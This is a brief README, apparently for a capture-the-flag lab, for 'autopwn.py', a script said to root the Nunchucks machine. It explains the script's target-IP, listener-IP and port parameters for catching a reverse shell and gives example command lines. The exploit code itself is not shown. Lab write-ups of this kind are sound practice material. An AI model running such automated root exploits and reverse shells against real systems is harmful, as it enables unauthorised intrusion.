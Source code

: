 # Nunchucks
Autopwn.py will give you root permissions of the Nunchucks machine when you run it. If you want to run this exploit you will have to specify 3 parameters:
- Host IP: Nunchucks host IP.
- Your own IP: Necessary to receive a reverse shell.
- Your own Port: Port where you are listening.

Example of use:
python3 autopwn.py <Host_IP> <Your_IP> <Your_Port>
python3 autopwn.py 10.10.10.10 10.10.16.8 9999

